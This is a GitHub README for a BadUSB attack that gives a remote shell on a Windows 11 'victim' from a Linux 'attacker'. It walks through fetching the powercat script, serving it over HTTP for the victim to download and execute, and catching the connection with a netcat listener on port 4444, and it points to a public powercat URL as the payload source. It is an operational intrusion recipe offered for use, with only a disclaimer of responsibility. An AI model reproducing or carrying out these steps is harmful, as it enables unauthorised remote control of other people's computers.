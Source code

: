 # Windows 11 Reverse Shell using a BadUSB
Note that this script has only been tested on Windows 11, I can't ensure this will work on previous or future versions of Windows. I won't make myself accountable for the damage this program could cause so, you're on your own. **Think twice before doing something you could regret later.**

## Creating and accessing reverse shells
For creating a reverse shell we'll need:
* A Windows 11 host (Victim) and a Linux machine (Attacker)
* The Arduino IDE
* An Internet connection or the files downloaded beforehand.
* An USB Arduino microcontroller (I'm using the DigiSpark ATTiny85 because I found it for like 2 bucks)

**Modify the files so that they adjust to your needs.** You'll need to change the IP address, the port (if you'd like to change it) and I if your victim has Internet access I'd recommend you changing the URL for downloading the auxiliar script to [this](https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1). That way you won't have to set up the HTTP server for the victim to download the script.

## Setting up the HTTP Server
We require **powercat** and **python3** for this step. We'll download powercat and then we will serve that folder for the Victim to download it and execute it.
We only have to download it from it's repo: ```wget https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1```
And then serve the folder where it's located, we can do that with ```sudo python3 -m http.server 80``` (The 80 it's because of the port and yes, we need root priviledges).

## Listening for an incoming connection
To listen for an incoming connection we are going to use netcat, just with a single command we'll be listening on port 4444:
```nc -lvp 4444```
-l means listen, -v verbose and -p port

## Executing the script
You just need to flash the script into the microcontroller using **Arduino IDE** and you're good to go.

**Remember looking at the code before flashing it, check that every parameter is OK**
